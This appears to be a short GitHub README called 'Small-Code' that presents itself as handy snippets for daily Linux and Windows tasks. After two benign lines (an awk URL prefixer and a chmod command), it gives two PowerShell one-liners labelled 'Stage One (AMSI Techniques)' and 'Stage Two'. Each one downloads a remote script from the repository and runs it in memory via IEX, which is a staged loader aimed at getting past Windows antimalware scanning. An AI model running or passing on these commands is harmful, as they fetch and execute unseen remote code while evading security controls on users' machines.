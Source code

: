![alt text](https://github.com/HeeresS/Small-Code/blob/main/SmallCode.png?raw=true)
# Small-Code
Small codes that will help with daily tasks for Linux and Windows. 
### Add text to line
~~~
awk  '{print "http://" $1}' urls.txt
~~~
### Change permissions of folder (Linux)
~~~
sudo chmod +x $(find /PATH/)
~~~
## Stage One (AMSI Techniques)
~~~
IEX (New-Object Net.Webclient).DownloadString('https://raw.githubusercontent.com/HeeresS/Small-Code/main/StageOne.ps1'); Invoke-StageOne
~~~
## Stage Two
~~~
IEX (New-Object Net.Webclient).DownloadString('https://raw.githubusercontent.com/HeeresS/Small-Code/main/StageTwo.ps1')
~~~


